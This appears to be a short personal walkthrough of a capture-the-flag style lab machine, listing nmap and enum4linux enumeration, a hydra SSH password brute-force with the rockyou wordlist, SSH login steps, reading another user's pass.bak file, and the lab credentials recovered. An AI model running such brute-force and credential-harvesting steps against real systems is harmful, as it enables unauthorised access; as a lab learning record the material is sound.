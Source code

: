 #### Machine IP: 10.10.135.87
<br>
Enum:

`nmap -sV -sC -oA nmap/bpt 10.10.135.87`
<br>
<br>

Open ports:
    <br>`hydra -l jan -P ~/Documents/wordlists/rockyou.txt ssh://10.10.135.87`<br><br>
    Ssh 22 -> Atacking[ brute forcing with hydra - User: jan:armando ]<br>
    80<br>
    139<br>
    445<br>

Dirbuster enum:<br>
    `http://10.10.135.87/development/`<br><br>


```
Loggin with ssh: ssh jan@ipmachine -p 22 : armando
Cd ..
Ls
Cd kay
vi pass.bak
```
<br>
<br>
For creds use:<br>

`enum4linux -v 10.10.135.87`
<br><br>

User creds:<br>
    jan:armando<br>
    key:heresareallystrongpasswordthatfollowsthepasswordpolicy$$



 

